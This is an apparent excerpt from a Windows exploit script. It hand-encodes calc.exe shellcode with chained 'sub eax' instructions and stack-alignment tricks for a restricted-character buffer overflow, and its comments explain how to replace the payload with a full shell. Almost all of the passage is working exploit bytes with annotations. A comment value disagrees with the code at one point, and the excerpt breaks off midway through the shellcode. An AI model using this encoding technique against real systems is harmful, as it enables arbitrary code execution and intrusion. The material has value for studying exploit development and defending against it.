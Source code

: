```console

# Can replace with a shell, if you are willing to do the encoding and decoding math Too preoccupied for now, so here is calc.exe
# You would need to use logical AND plus the sub eax opcodes to get a value on the stack that could jump back to the A buffer, where there is
# much more room. Then you would need to align the stack with the stack pointer value you need (not 0x012F3F4 as used below) and write to the stack upwards.
# You should have enough room for all of the logical AND plus sub eax commands to get a full-sized shell payload on the stack.

# calc.exe shellcode:
# "\x31\xc9\x51\x68"
# "\x63\x61\x6c\x63"
# "\x54\xB8\xc7\x93"
# "\xc2\x77\xff\xd0"

# For zeroing out registers before manual shellcode
zero = "\x25\x01\x01\x01\x01"           # and eax, 0x01010101
zero += "\x25\x10\x10\x10\x10"          # and eax, 0x10101010

# We need to save the current stack pointer before execution of shellcode, due to
# old stack pointer value needed when executing our payload of calc.exe. This puts the current stack pointer 0x0012DC98 into ECX, to be used later
restore = "\x54" # push esp; (pushing the current value of ESP, which needs to be restored later, onto the stack)
restore += "\x59" # pop ecx; (holding the value of old ESP in ECX, to be called later.)
restore += "\x51" # push ecx; (to get the value on the stack for the mov esp command later)

# Stack alignment
# Need to make ESP 0x012F3F4. Using sub method to write that value onto the stack.
# After making ESP 0x012F3F4, it should be the same value as EAX- so we can write up the stack.
alignment = "\x54" # push esp
alignment += "\x58" # pop eax; (puts the value of ESP into EAX)

# Write these 3 sub values in normal format, since memory address, not instruction to be executed. You do not have to do
# it this way, but I do my calculations in normal format to remind me it is a memory address, when doing hex max. For my
# other operations, I used little endian. If you do all of the calculations in one way, you do not need to flip the sub 
# math difference results. This is how I keep things straight
# 384D5555 364D5555 364E5555
alignment += "\x2d\x38\x4d\x55\x55" # sub eax, 0x384D5555
alignment += "\x2d\x36\x4d\x55\x55" # sub eax, 0x364D5555
alignment += "\x2d\x36\x4e\x55\x55" # sub eax, 0x364E5555
alignment += "\x50" # push eax
alignment += "\x5c" # pop esp; (puts the value of eax back into esp)

# calc.exe shellcode, via the sub method. Values needed are as followed. Reference the calc.exe shellcode line for line numbers.
# 1st line = 2C552D14 01552D14 01562E16
shellcode = zero
shellcode += "\x2d\x14\x2d\x55\x2c" # sub eax, 0x2C552D14
shellcode += "\x2d\x14\x2d\x55\x01" # sub eax, 0x01562D14
shellcode += "\x2d\x16\x2e\x56\x01" # sub eax, 0x01562E16
shellcode += "\x50" # push eax; (get the value on the stack). We will do this for all remaining steps like this one.

# 2nd line = 24121729 24121739 2414194A
shellcode += zero
shellcode += "\x2d\x29\x17\x12\x24" # sub eax, 0x24121729
shellcode += "\x2d\x39\x17\x12\x24"     # sub eax, 0x24121739
```